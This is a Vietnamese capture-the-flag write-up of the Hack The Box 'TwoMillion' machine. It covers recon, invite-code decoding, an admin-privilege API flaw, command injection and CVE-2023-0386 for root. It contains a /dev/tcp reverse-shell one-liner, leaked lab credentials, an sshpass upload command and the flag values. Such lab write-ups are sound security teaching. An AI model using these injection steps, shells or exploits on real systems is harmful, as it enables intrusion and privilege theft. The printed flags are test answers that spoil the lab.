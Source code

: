 ```yaml
---
title: HTB TwoMillion
published: 2025-08-02
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
description: Writeup about TwoMillion Machine
image: "/assets/post_image/twomillion.png"
---
```

# HTB Labs: Two Million
## I. User Flag
Mình được cấp 1 IP tương tự các machine khác, tiến hành truy cập và scan trước bằng nmap 
![image](https://hackmd.io/_uploads/rJQgmW3Bxg.png)
Thấy được chỉ có mỗi 2 services là `ssh` và `nginx` mình sẽ tiến hành recon cả hai
Mình sẽ tiến hành recon web server trước vì hiện tại chưa có thông tin về user của ssh
![image](https://hackmd.io/_uploads/SkiBmZ2Sxx.png)
Đây có lẽ là một trang intro về HTB, hoặc gì đó tương tự vậy. Để biết rõ hơn về directory của web này mình sẽ scan dir thử xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rJXtpK3Dlx.png)
Mình thấy một vài dir thú vị, mình sẽ thử `/register` xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rkEhaK2vgl.png)
Ta thấy đây là một trang đăng ký bình thường, nhưng để đăng ký được thì ta cần có một `invite code`, đây là một trường input nhưng mình không thể nhập được. View source mình thấy một điều thú vị
![image](https://hackmd.io/_uploads/HJ6rAKnPee.png)
Đoạn js này dùng để lấy mã `invite code` từ `localStorage` vầ ở trên ta có thể thấy thêm một file `inviteapi.min.js` tiến hành vào kiểm tra thì có vẽ như đã bị `obfuscated`
```javascript 
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Đây là dạng `eval obfuscation` để tránh mất thời gian mình sẽ dùng [beautifer](https://beautifier.io) để tiến hành `deobs`
```javascript 
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
Kết quả trả về ta có 2 `function` một là dùng để check `invite code` và cái còn lại là tạo ra `invite code`. Nói về `function` `makeInviteCode()` thì ta có thể thấy rằng nó gửi một `post req` đến `/api/v1/invite/how/to/generate` để lấy mã `invite code` từ đây và tiến hành thiết lập mã mời. Có lẽ endpoint này có thể khai thác thêm gì đó. Mình sẽ tiến hành post một `req` đến `API` để xem thử có dữ liệu gì được trả về không
![image](https://hackmd.io/_uploads/SJuUl62wee.png)
Như ta thấy, nó trả về nội dung như này, và `data` đã bị encode nhưng giờ vẫn chưa biết thuật toán dùng để encode là gì. Nhưng bên dưới lại để `entype: ROT13` nên mình sẽ decode với `RÓT13` xem
![image](https://hackmd.io/_uploads/HJJJbahvle.png)
Ta nhận được thông điệp là hãy dùng `post req` đến endpoint trên 
![image](https://hackmd.io/_uploads/r1rMZpnwle.png)
Ta tiếp tục nhận lại `data` như trên, nhưng về `data` này có vẻ như dễ dàng nhận biết được encode bằng `B64`
![image](https://hackmd.io/_uploads/SyEIWT3vlx.png)
Ta nhận lại một đoạn mã, có vẽ như chính là `invite code` nếu như không lầm thì đây chính là endpoint sẽ cung cấp `invite code` cho phía `function` ở đoạn code js truớc. Giờ mình sẽ dùng `invite code` này để reg một account
![image](https://hackmd.io/_uploads/HJDfzTnDlg.png)
![image](https://hackmd.io/_uploads/rJofG63vlg.png)
Sau khi reg thành công, ta đã vào được trang chính như trên. OK Khi vào được trang này và đã có thêm cookie. Mình sẽ tiến hành để scan dir thêm một lần nữa để xem có thể phát hiện thêm gì mới không
![image](https://hackmd.io/_uploads/BJUulxpwxe.png)
Mình thấy có thêm một dir là `/api` trả code 200 nên quyết định check thử 
![image](https://hackmd.io/_uploads/HJgAxeTvxl.png)
Ta biết thêm một dir là `/api/v1` 
![image](https://hackmd.io/_uploads/rJt-bxaPge.png)
Đây là một list `API` của version và được phân cấp theo từng người dùng. Ta có thể thấy được `/api/v1/admin` và `/api/v1/user` được chia theo từng cách call với từng method như `GET`, `POST`. Có lẽ đây là nơi mà các lệnh call `API` ở file js vừa rồi mình quan sát được nhưng không thể truy cập vào xem khi chưa có user. Có lẽ sẽ có nhiều thông tin để khai thác
Sau một lúc truy vấn thì mình phát hiện được ta có thể dùng `PUT req` đến `/api/v1/admin/settings/update`, sau khi gửi `req` đến thì ta nhận được các thông báo lỗi có thể giúp ích được rất nhiều, cụ thể
![image](https://hackmd.io/_uploads/H1qAyyCDxe.png)
Cụ thể ở `req` đầu ta nhận được `res` báo về do chưa có `content-type` hợp lệ, do `data` trả về dưới dạng json nên mình nghĩ `data` gửi hợp lệ cũng sẽ là json 
![image](https://hackmd.io/_uploads/ryeMxkCPle.png)
Sửa xong tiếp tục gửi `req` thì nhận được là thiếu param email mình lập tức thêm email vào `req` để gửi đi . Tiếp đến nó lại yêu cầu có param `is_admin`. Mình nghĩ đây là một param nhận `boolen_value` nên mình sẽ thử với `is_admin:1`
![image](https://hackmd.io/_uploads/rkl6xyADlg.png)
Kết quả ta nhận được `res` như này. Giờ có lẽ ta đã hoàn toàn có thể cấp quyền admin cho user của ta. Để test thử xem thì mình sẽ call một API admin khác
![image](https://hackmd.io/_uploads/H1JibJCwlg.png)
Hoàn toàn call thành công. Và sau khi call với `/api/v1/admin/auth` thì `res` trả về là true chứng tỏ việc leo quyền user đã thành công và giờ ta đã là `admin`
![image](https://hackmd.io/_uploads/HJfAlgCPge.png)
Tiếp theo là gửi `Post req` đến `/api/v1/admin/vpn/generate` để xem có thể khai thác gì từ `API` cuối cùng này không. Thì ta có thể thấy được nó yêu cầu thêm param là `username`
![image](https://hackmd.io/_uploads/SknQWeCvxg.png)
Và `API` này nhận bát kỳ giá trị nào của param `username`, do đó có khả năng sẽ bị `Command Injection`. Ta sẽ tiến hành thử detect
![image](https://hackmd.io/_uploads/BkWczWCDle.png)
Chỉ với việc inject đơn giản, ta đã có thể detect được lỗ hỏng. Để dễ dàng khai thác, ta cần đưa reverse shell vào để lấy shell thuận lợi cho việc khai thác hơn
```shell
sh -i >& /dev/tcp/10.10.10.10/4242 0>&1
```
Mình sẽ dùng `bash`, sau đó chỉ cần inject vào là ta đẫ lấy được `reverse shell`.
![image](https://hackmd.io/_uploads/B1PE5GCvgg.png)
Ta thấy dễ dàng lấy được `reverse shell`, và user hiện tại là `www-data`. Không phải `admin` nên các quyền hạn hiện tại còn hạn chế. Sau một xem thử thì mình tìm được một file `.env`
![image](https://hackmd.io/_uploads/r17FO4APgg.png)
Khi cat ra ta được một credential của `admin`. Mình nghĩ đây có lẽ là credential của admin trong server `ssh`. Còn nhớ khi ta scan IP thì có 2 services 1 là `web server` 2 là `ssh`
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Giờ mình sẽ thử login với credential này xem 
![image](https://hackmd.io/_uploads/H1bWt40Dxx.png)
Ta đã thành công vào được `ssh server`. `ls` ra thì có file `user.txt`. Đây chính là file chứa `user flag` của ta, ban đầu khi vọc ở `reverse shell`, mình thấy được một dir là `/home/admin/user.txt` nhưng lúc đó lại không có quyền để đọc file. Giờ thì đã thành công lấy được `user flag`

> 79f5d11adcf863aadc6d588a6fbbe4a6

## II. Root Flag
Sau khi tìm được `user flag`, mình bắt đầu đi tìm `root flag` nhưng loay hoay mãi vẫn chưa tìm được thêm thông tin gì về lỗ hỏng để leo quyền và thông tin liên quan. Có check hint thì mình cần kiểm tra thêm về nơi lưu trữ các mail của `Linux system`. Sau một lúc search thì thấy được các mail được gửi đến sẽ được lưu ở `/var/mail`. Đi vào để kiểm tra thì nhận được một bản email gửi đến `admin` như sau
```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Email này là một thông điệp nội bộ, gửi từ một nhân viên tên là `ch4p` đến `admin` và cc cho `g0blin`, với nội dung liên quan đến việc vá lỗi bảo mật hệ thống.
Tìm hiểu về `CVE-2023-0386` này thì lỗ hổng này cho phép một người dùng thông thường có thể chiếm quyền `root `bằng cách lợi dụng cơ chế sao chép file (copy-up) của `OverlayFS`. Cụ thể, khi một file có quyền `setuid` được sao chép từ một lớp file hệ thống ảo (FUSE) lên lớp ghi (upper layer), `OverlayFS` đã không loại bỏ quyền `setuid` này, cho phép kẻ tấn công thực thi file với quyền root.
Sau một lúc tìm kiếm thì mình tìm được `POC` và cũng như là payload exploit của `CVE` này [ở đây](https://github.com/sxlmnwb/CVE-2023-0386)
OK giờ ta đã có payload exploit. Tiếp đến là dựng server đẻ upload zip này lên máy victim. Mình sẽ dựng `Python server` để upload
![image](https://hackmd.io/_uploads/rkwLZhldee.png)
Có vẻ như ta không có quyền uplaod ở cả user thường và admin ở phía ssh. Giờ ta cần phải upload bằng `scp`

```bash
sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@10.10.11.221:/tmp/         
```
Ta sẽ upload thông qua credential ssh mà ta đã có và lưu ở tmp. Cách khai thác thì tiến hành mở 2 terminal do đây là `SSH Server` nên mình sẽ start 2 sessions. Ở session 1 ta sẽ run `./fuse ./ovlcap/lower ./gc`
Và tiếp theo ở session 2 là `./exp`
![image](https://hackmd.io/_uploads/SJQHiyZOeg.png)
Như ta đã thấy, giờ hoàn toàn đã leo quyền thành công. Do đây là một bài labs để khai thác nên mình sẽ chưa tìm hiểu kỹ về `CVE` này ở blog này nên chỉ cần dùng payload exploit đã công bố là được giờ ta chỉ cần đọc root flag ở `/root/root.txt`
> 0f080a26c0360745340c0b6f5b3a407b




